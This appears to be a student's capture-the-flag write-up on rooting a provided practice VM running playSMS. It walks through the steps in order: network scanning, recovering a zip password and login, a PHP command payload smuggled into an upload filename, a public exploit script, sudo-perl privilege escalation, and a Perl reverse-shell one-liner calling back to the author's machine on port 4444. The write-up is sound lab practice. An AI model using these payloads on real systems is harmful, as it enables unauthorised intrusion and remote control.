





# CHALLENGE-1 : Gaining Access to Remote Server

We are given a ova file which we need to import in our VM-ware. After opening it we are able to run the website on that machine. We do not have root privilege of the machine provided, so there's no way to know its IP address just by doing- 'sudo ifconfig'.

So I have my second machine(Linux-based) running on same network. So I performed the network scan using -

```bash
sudo arp-scan --localnet
```
Screenshot is given -


This is how I got the IP of the hackme machine.

Now to know or to take out information of vulnerability of any website I used nmap in following way-
```bash
sudo nmap --script vuln <target website>
```
So here's what I got. I  got that on website there is robots.txt which is a quite interesting file always :) and also observed that there was an extra file in the result '/secure' which was not mentioned in the 'robots.txt' as well. So, after opening the '/secure' directory on the web I found a 'backup.zip' folder..I extracted it in my machine and tried to open it but it required a 'password' to open it.



 As I have visited the '/nothing' directory I inspected the page and got a list of passwords. I tried each of the passwords and found that 'freedom' was the correct password which worked. Then inside that zip file I got 'backup-cred.mp3' file and straight away did-

```bash
strings backup-cred.mp3
```
Here's what I got:


Now I reached the login page of playSMS. I took the username:touhid and tried all the passwords and got 'diana' as a correct one and was able to login successfully..!! 

Now when I observed the website I went on to 'My account' tab ,there I clicked 'send from file' option which stated only csv files are allowed. So , I got a clue that there must be a vulnerability related to uploading files. 
As I did inspect element on the webpage I found <--kurakura cinta kamu.......sampai mati...--> which I thought something to be interesting. So I started surfing about it, and to my surprise I found the similar challenge on it. I got the script of all the webscraping of playSMS website and after doing the necessary changes I completed writing the script which would give me shell of the machine from which the website was running. When using Burpsuite , while intercepting I changed the file name as -
```bash
filename=flag.<?php system("pwd"); ?>.png
```
I got the directory to be var/www/SecreTSMSgatwayLogin. So this is how I got to know that Remote code execution is possible and used my script accordingly.Now I started my script by typing -
```bash
$ python3 SAIC1.py --url <put the url> --username touhid --password diana --i
```
Then I got the shell but I was not into the root directory so it was the same condition which I saw in the last year submissions. I got the idea how to move forward once I saw Vanshaj bhaiya's submission he used the command 'python -c 'import pty;pty.spawn ("/bin/bash");'therefore by observing this I did 'sudo -l' in the obtained shell to get some info and to my interest I got-


Then I executed a command in that shell to get into www-data and perform high privilege commands in /usr/bin/perl (similar to the one used by Vanshaj bhaiya )-
```bash
>sudo -u www-data /usr/bin/perl -e 'exec "/bin/bash -i";'
>whoami
www-data
```
Now I was in www-data and can now execute some high privilege commands, so after surfing through the Youtube I found how to go to main root directory, for that purpose I entered whose purpose was to shift me to the root directory in the 'saic' machine and give me an interactive shell which I  would be able to listen on my localhost(Linux-machine) on port 4444 -

So before running the command I started listening on port 4444 by entering this in my machine-
```bash
$ ncat -l -p 4444 -k
```
After this command I ran the below command in the www-data shell-

```bash
>perl -e 'use Socket;$i="192.168.9.152";$p=4444; socket (S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if (connect (S,sockaddr_in($p'inet_aton($i)))) {open (STDIN, ">&S"); open (STDOUT, ">&S"); open (STDERR, ">&S"); exec("/bin/sh -i");};'
```
Here's what I did-

Then in my ncat I saw no change so I entered 'id' and it gave out as-

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```
Hurray..!! I got the root shell and straightaway I did the following and got the flag-
```bash
cd /root
ls
flag.txt
cat flag.txt
Well done, Neo!
```
#### PS: It took me almost a day to get till the flag. Majority of the time was spent in the last step of about how do we change the directories to get root access.

## Resources:
1] https://github.com/jasperla/CVE-2017-9101/blob/master/playsmshell.py

2] https://www.exploit-db.com/


 


